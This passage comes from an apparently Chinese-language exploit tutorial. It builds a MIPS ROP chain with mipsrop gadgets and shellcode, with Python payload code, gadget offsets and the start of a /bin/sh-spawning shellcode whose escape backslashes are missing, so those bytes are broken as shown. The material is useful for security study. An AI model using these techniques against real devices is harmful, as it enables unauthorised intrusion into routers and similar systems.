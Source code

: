 ```
rop2 = 0x00057E50



payload = padding + p32(base_addr + rop2)
```


- 注意各个寄存器的位置
### <a name="%E6%9E%84%E9%80%A0_shellcode"></a>**构造 shellcode**

接着是使用 mipsrop.stackfinder() 查找 gadget，做好往栈上填充 shellcode 的准备

这里找到一条指令 ，我们可以往 $sp+0x18 的位置填充 shellcode，此时 a1 寄存器就存放着 shellcode 的地址

.text:0000B814                 addiu   $a1, $sp, 0x168+var_150

[![](https://p4.ssl.qhimg.com/t01f9c9cc4a5b9a3d79.png)](https://p4.ssl.qhimg.com/t01f9c9cc4a5b9a3d79.png)

最后使用 mipsrop.find(“move $t9,$a1”) 找到可以跳到到 a1 寄存器的指令。<br>
找到 0x00037E6C 这里的 gadget，正好满足我们的需求。

[![](https://p3.ssl.qhimg.com/t01a300be319b42e72c.png)](https://p3.ssl.qhimg.com/t01a300be319b42e72c.png)

调用 shellcode 时的 payload：



```
rop3 = 0x0000B814               # mipsrop.stackfinder()



rop4 = 0x00037E6C               # mipsrop.find("move $t9,$a1")

payload += 'b' * 0x1c           # 上一步调用完 sleep 函数的填充（mipsrop.tail()）

payload += p32(base_addr + rop4)                # s1

payload += 'b' * 4                              # s2    

payload += p32(base_addr + rop3)                # ra





shellcode = "xffxffx06x28"  # slti $a2, $zero, -1

shellcode += "x62x69x0fx3c"  # lui $t7, 0x6962

shellcode += "x2fx2fxefx35"  # ori $t7, $t7, 0x2f2f

shellcode += "xf4xffxafxaf"  # sw $t7, -0xc($sp)

shellcode += "x73x68x0ex3c"  # lui $t6, 0x6873

shellcode += "x6ex2fxcex35"  # ori $t6, $t6, 0x2f6e

shellcode += "xf8xffxaexaf"  # sw $t6, -8($sp)

shellcode += "xfcxffxa0xaf"  # sw $zero, -4($sp)

shellcode += "xf4xffxa4x27"  # addiu $a0, $sp, -0xc

```